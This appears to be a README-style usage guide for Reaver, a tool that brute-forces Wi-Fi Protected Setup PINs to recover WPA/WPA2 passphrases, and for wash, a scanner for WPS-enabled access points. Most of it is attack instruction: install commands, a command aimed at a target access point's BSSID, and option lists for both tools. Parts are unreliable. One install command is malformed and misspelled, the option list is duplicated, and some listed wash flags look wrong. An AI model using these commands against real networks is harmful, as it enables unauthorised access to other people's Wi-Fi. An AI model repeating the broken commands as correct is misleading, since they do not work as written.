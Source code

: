 # what is Reaver

Reaver implements a brute force attack against Wifi Protected Setup (WPS) registrar PINs in order to recover WPA/WPA2 passphrases, as described in [Brute forcing Wi-Fi Protected Setup](http://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf).

Reaver has been designed to be a robust and practical attack against WPS, and has been tested against a wide variety of access points and WPS implementations.

On average Reaver will recover the target AP's plain text WPA/WPA2 passphrase in 4-10 hours, depending on the AP. In practice, it will generally take half this time to guess the correct WPS pin and recover the passphrase.

# How to use Reaver

## Install Reaver

```bash
sudo apt-get update
sudo apt-get airckrack-ng libssl-dev sqlite3 libsqlite3-dev aircrack-ng pixiewps
sudo apt-get install reaver
```

## Run Reaver

```bash
reaver -i wlan0mon -b 00:01:02:03:04:05 -vv
```
* -i: interface which is in monitor mode
* -b: BSSID of the target AP
* -vv: verbose mode
* -c: channel of the target AP
* -a: automatically detect the best advanced options for the AP
* -d: delay in seconds between pin attempts
* -e: use external registrar's PIN

## Reaver options

```bash
reaver --help
```

* -a: automatically detect the best advanced options for the AP
* -b: target AP's BSSID
* -c: target AP's wireless channel
* -d: delay in seconds between pin attempts
* -e: use external registrar's PIN

## wash - scan for WPS enabled APs

### what is wash

Wash is a utility for identifying WPS enabled access points. It can survey the current channel and neighboring channels, identifying WPS-enabled APs and the manufacturer set default SSID prefixes. Wash can be used to scan for WPS-enabled APs and to attack those WPS access points that are vulnerable to the WPS brute force attack.

```bash
wash -i wlan0mon
```

* -i: interface which is in monitor mode
* -C: colorize output
* -s: skip wash's check for a WPS locked state
* -o: output only the AP's that have WPS enabled
* -W: wait for a WPS locked state to be cleared before scanning
* -a: automatically detect the best advanced options for the AP